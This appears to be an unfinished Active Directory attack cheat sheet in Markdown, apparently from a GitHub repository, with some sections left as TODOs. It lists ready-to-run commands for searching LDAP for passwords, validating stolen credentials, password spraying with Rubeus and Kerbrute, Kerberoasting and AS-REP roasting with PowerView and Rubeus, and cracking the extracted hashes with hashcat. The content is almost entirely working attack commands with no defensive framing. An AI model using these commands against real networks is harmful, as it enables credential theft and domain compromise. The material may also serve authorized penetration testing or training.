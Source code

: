 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`.\ADRecon.ps1`

`.\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`.\Rubeus.exe brute /password:Start123!`

### Kerbrute
`Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`Import-Module .\PowerView.ps1`

`(Get-NetUser | select samAccountName).samAccountName > users.txt`

`.\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`Import-Module .\PowerView.ps1`

`Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast`

### Rubeus
`.\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`.\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 4. ASREPRoasting
## Identify AS-REP roastable users
### PowerView-Dev
`Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`.\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`Import-Module .\Invoke-ASREPRoast.ps1`

`Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`.\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`

# 5. PASSWD NOT REQ
Get-ADUser -Filter {PasswordNotRequired -eq $true}

ToDO



